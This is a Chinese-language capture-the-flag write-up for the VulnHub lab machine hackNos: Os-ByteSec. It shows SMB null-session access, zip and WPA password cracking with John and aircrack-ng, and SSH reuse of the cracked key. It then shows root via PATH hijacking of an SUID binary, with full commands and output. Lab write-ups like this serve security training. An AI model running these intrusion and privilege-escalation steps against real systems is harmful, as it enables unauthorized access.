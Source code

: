 # HACKNOS: OS-BYTESEC

2025.02.17 https://www.vulnhub.com/entry/hacknos-os-bytesec,393/

[video](https://www.bilibili.com/video/BV1ZgwoeJE4C/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2525/tcp open  ms-v-worlds
```

enum4linux-ng -a 192.168.5.40 先看看 445 smb 有没有什么共享出来的，发现 1 个枚举出的用户：smb，2 个 smb 共享路径：`print$、IPC$`。

80 web 首页底部有提示：####################GET#####smb##############free 提示 smb 自由访问，表示可能不需要密码就可以访问。

尝试 smmb 空密码进行登陆：

```
smbmap -H 192.168.5.40 -u smb -p ''

Disk                                                  	Permissions	Comment
----                                                  	-----------	-------
print$                                            	READ ONLY	Printer Drivers
IPC$                                              	NO ACCESS	IPC Service (nitin server (Samba, Ubuntu))
```

print$ 可以读取，smbclient 进行登陆：

```
smbclient //192.168.5.40/print$ -U smb -p

W32ALPHA                            D        0  Mon Oct 21 23:31:47 2019
W32X86                              D        0  Mon Oct 21 23:31:47 2019
W32MIPS                             D        0  Mon Oct 21 23:31:47 2019
W32PPC                              D        0  Mon Oct 21 23:31:47 2019
x64                                 D        0  Mon Oct 21 23:31:47 2019
WIN40                               D        0  Mon Oct 21 23:31:47 2019
IA64                                D        0  Mon Oct 21 23:31:47 2019
COLOR                               D        0  Mon Oct 21 23:31:47 2019
```

现实了一堆文件夹，没什么有用信息。

在尝试读取下 smb 用户的文件夹，空密码登陆：

```
smbclient //192.168.5.40/smb -U smb -p
```

ls 后看到 2 个文件：main.txt 和 safe.zip 将其下载。main.txt 中的内容为 helo，不是 zip 解压密码，尝试 john + rockyou 进行解密，得到解压密码 hacker1 解压后，是一个图片和一个 wireshark 抓包文件。

先看看图片有没有隐写，没发现隐写。在看看那个抓包文件，是一个无线协议抓包文件，尝试使用 ng 进行破解:

```
aircrack-ng eg-01.cap -w /usr/share/wordlists/rockyou.txt

KEY FOUND! [ snowflake ]
```

同时发现 SSID 为 blackjax，可能是这个用户的 ssh 登陆密码，尝试登陆端口 2525 ，登陆成功：

```
ssh -p 2525 blackjax@192.168.5.40  # 输入密码 snowflake
```

首先得到了 user flag:

```
blackjax@nitin:~$ cat user.txt
  _    _  _____ ______ _____        ______ _               _____
 | |  | |/ ____|  ____|  __ \      |  ____| |        /\   / ____|
 | |  | | (___ | |__  | |__) |_____| |__  | |       /  \ | |  __
 | |  | |\___ \|  __| |  _  /______|  __| | |      / /\ \| | |_ |
 | |__| |____) | |____| | \ \      | |    | |____ / ____ \ |__| |
  \____/|_____/|______|_|  \_\     |_|    |______/_/    \_\_____|



Go To Root.

MD5-HASH : f589a6959f3e04037eb2b3eb0ff726ac
```

枚举后，发现了一个 suid 文件 /usr/bin/netscan GTFOBins 中没有利用方式。

看看他的源码，使用 strings 先看看可见字符，发现里面使用了 netstat -antp 这里的 netstat 没有使用绝对路径，这里可以 PATH 劫持：

```
echo '/bin/bash -p' > /tmp/netstat
chmod +x /tmp/netstat
export PATH=/tmp:$PATH
/usr/bin/netscan
```

运行后直接得到了 root 权限：

```
root@nitin:/tmp# cd /root
root@nitin:/root# ls
root.txt
root@nitin:/root# cat root.txt
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/
                     /_____/
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me
```
